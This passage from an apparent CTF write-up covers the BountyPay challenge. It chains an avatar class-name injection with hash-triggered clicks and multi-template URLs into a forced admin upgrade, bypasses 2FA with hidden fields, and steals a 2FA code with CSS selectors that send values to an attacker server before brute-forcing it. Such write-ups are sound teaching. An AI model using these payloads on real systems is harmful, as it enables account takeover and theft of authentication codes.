        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```
This is the handling for anchor hashes. For example if I go to https://staff.bountypay.h1ctf.com#tab2, it will automatically click the second tab for me. This might come in handy later.

I noticed also that the code talks about a tab4, but our UI does not have a 4th tab. Trying to go to it doesn't work. I'm assuming that there is one more tab that only the admins have access to.

## Profile Shenanigans
The first thing to really stand out was the profile updater tool. 



I tried updating my username to different values to try and check for XSS. No luck, both inputs are being sanitized, and symbols are not allowed.

By intercepting the request, I was able to see the the radio buttons allowed me to change the avatar between the values: `avatar`, `avatar1`, `avatar2`, `avatar3`.

The avatar value gets inserted into a div like this:
```html
<div style="margin:auto" class="avatar1"></div>
```

And then the CSS adds the image to the div (urls removed by me to save space):
```css
.avatar {
    width:64px;
    height:64px;
}
.avatar1 {
    background-image:url("");
}
.avatar2 {
    background-image:url("");
}
.avatar3 {
    background-image:url("");
}
```

We are limited to only using regular letters and number characters as our input. That should be enough to do some damage though, as we are able to write class names right into the page, and we know `website.js` will run functionality on elements with certain class names.

The most obvious contender for classname is `upgradeToAdmin`. To refresh our memory, here is the function from `website.js` again below:
```javascript
$('.upgradeToAdmin').click(function () {
	let t = $('input[name="username"]').val();
	$.get('/admin/upgrade?username=' + t, function () {
		alert('User Upgraded to Admin');
	});
}), 
```

With the class set, the page renders with a div looking like this:
```html
<div style="margin:auto" class="upgradeToAdmin"></div>
```

And now, when I click on our avatar, I can see a request being made to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`. We'll need to come back to the username being undefined, but this is a promising start!

Having the admin need to click the avatar to run the exploit is not good enough though. We will want it to happen automatically as soon as the page is opened.

There is some other functionality related to clicking, which I will paste again below:
```javascript
document.location.hash.length > 0 && 
    (
        '#tab1' === document.location.hash && $('.tab1').trigger('click'), 
        '#tab2' === document.location.hash && $('.tab2').trigger('click'), 
        '#tab3' === document.location.hash && $('.tab3').trigger('click'), 
        '#tab4' === document.location.hash && $('.tab4').trigger('click')
    );
```

Ok. If we give our image a specific tab class, and then go to a url with an anchor hash of the same value, we can get our avatar to be auto clicked.

One more profile update, and we have:

```html
<div style="margin:auto" class="upgradeToAdmin tab3"></div>
```

Now, when we navigate to https://staff.bountypay.h1ctf.com?template=home#tab3, we are brought directly to the profile tab, and we instantly have a request made in the background to `https://staff.bountypay.h1ctf.com/admin/upgrade?username=undefined`.

Now we are cooking.

## Getting the Username
One thing is still outstanding though. We need to make sure our page sends our username, `sandra.allison`. The code in the `upgradeToAdmin` function is sending the value of `input[name="username"]` as the username. None of the tabs have an input box with that name. 

There is, however, an input box with that name on the login page. If we could render the login template at the same time as the profile template (containing our avatar), we could have the request send properly.

The typical URL looks like `?template=VALUE` where value is one of `login`, `home`, `ticket`, or `admin` (and we don't have access to admin). We can send in an array of templates by forming our URL like `?template[]=home&template[]=login`.

Putting everything together, we get: https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab3

We need the login template to have access to the username field, the ticket template to have access to our avatar (from the admin's point of view), and the tab in order to trigger our click.

I directly reported this URL to `/admin/report?url=`, base64 encoded. Now, when refreshing the page, we can see our unlimited administrator powers!

# Unlimited Administrator Powers


Marten Mickos, the account we need to access to pay the bounties! Let's log into the app domain and see if we can find some statements.

Logging in gives us another 2 factor challenge.


Pff, easy, just look at the hidden fields, make my own challenge and answer, we've done this before.

Once more, we are greeted with the dashboard of no statements. I iterated through all possible year / month combinations until 05-2020 revealed some transactions. 


Clicking to pay brings up another 2 factor challenge.



It is weird that we are able to send a css stylesheet to the 2 factor app. Let's go next and see what happens.



Our usual party trick of manually setting the challenge and answer doesn't work this time! Looks like this works completely differently. It is also interesting that we have a timeout now, and have to complete the challenge within 2 minutes.

# Attacking With a Stylesheet
After some looking around, it seems like our only weapon for this final battle is a CSS stylesheet. The default stylesheet didn't contain any useful information.

I did some Google searching to see what kind of stylish attacks could be pulled off with nothing but CSS. This reference was a big help: https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense.

The gist of it is, you can determine what content is on a page by applying a style to it, and sending a network request as part of the style. We can assume that the 2 factor code is displayed in an `input` type element for easy selecting by the user.

As a little test, we could create an HTML file:
```html
<input value="secret">
```

and a CSS file:
```css
input[value="^s"] { background-image: url("<my-server>/s"); }
```

This style applies to all input elements that have a value beginning with `s`. When we open the HTML file, the server will receive a request for `s`. It won't know what to do with that request, but that doesn't matter. We received a piece of information that the input begins with `s`. The blog post goes into a lot of detail into how to create a css file that can go through all the permutations needed to work out the full input. Let's move on for now, back to the challenge at hand.

I generated a stylesheet looking like this to find out what the 2 factor code started with:
```css
input[value^="1"] { background-image: url("<my-server>/1"); }
input[value^="2"] { background-image: url("<my-server>/2"); }
input[value^="3"] { background-image: url("<my-server>/3"); }
...
input[value^="A"] { background-image: url("<my-server>/A"); }
input[value^="B"] { background-image: url("<my-server>/B"); }
input[value^="C"] { background-image: url("<my-server>/C"); }
...
input[value^="d"] { background-image: url("<my-server>/d"); }
input[value^="e"] { background-image: url("<my-server>/e"); }
input[value^="f"] { background-image: url("<my-server>/f"); }
...
input[value^="!"] { background-image: url("<my-server>/!"); }
input[value^="@"] { background-image: url("<my-server>/@"); }
input[value^="#"] { background-image: url("<my-server>/#"); }
...
```

After submitting my stylesheet, I got some pings on my server!


7 different responses. Note that if multiple styles apply to an object, only the last one gets used. That means that if I got 7 responses, there are 7 different input boxes on the page.

I wrote a quick python script to generate all the permutations of those 7 characters:
```python
from itertools import permutations

file = open('payloads.txt', 'a')
alphabet = 'QKDCux5'
for perm in permutations(alphabet, len(alphabet)):
    file.write(f'{"".join(perm)}\n')
file.close()
```

We have our wordlist now, next thing to do is to hammer the server with these thousands of requests before the time limit is up! 


And that's a wrap!

